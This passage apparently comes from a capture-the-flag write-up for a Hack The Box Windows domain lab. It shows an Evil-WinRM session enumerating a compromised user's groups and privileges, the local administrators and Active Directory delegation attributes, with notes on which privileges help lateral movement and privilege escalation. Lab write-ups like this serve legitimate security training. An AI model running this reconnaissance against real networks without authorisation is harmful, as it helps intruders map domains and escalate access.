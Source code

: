 ```powershell
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami /all
```

```text
USER INFORMATION
User Name SID
puppy\adam.silver S-1-5-21-1487982659-1829050783-2281216199-1105

GROUP INFORMATION
Group Name ... 
PUPPY\DEVELOPERS ... S-1-5-21-1487982659-1829050783-2281216199-1113
... BUILTIN\Remote Management Users, BUILTIN\Users, NT AUTHORITY\NETWORK, etc.

PRIVILEGES INFORMATION
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

- User is member of DEVELOPERS and standard builtin groups.
    
- SeMachineAccountPrivilege present and enabled (can create machine accounts).
    
- Useful local privileges enumerated for lateral/privilege escalation.
    

---

```powershell
*Evil-WinRM* PS C:\Users\adam.silver\Documents> net localgroup administrators
```

```text
Alias name administrators
Members
Administrator
Domain Admins
Enterprise Admins
steph.cooper_adm
The command completed successfully.
```

- steph.cooper_adm is a local administrator on this host.
    

---

```powershell
*Evil-WinRM* PS C:\Users\adam.silver\Documents> Get-ADUser adam.silver -Properties msDS-AllowedToDelegateTo, msDS-AllowedToActOnBehalfOfOtherIdentity
```

```text
DistinguishedName : CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
Enabled : True
GivenName : Adam
Name : Adam D. Silver
SamAccountName : adam.silver
UserPrincipalName : adam.silver@PUPPY.HTB
<SNIP>
```
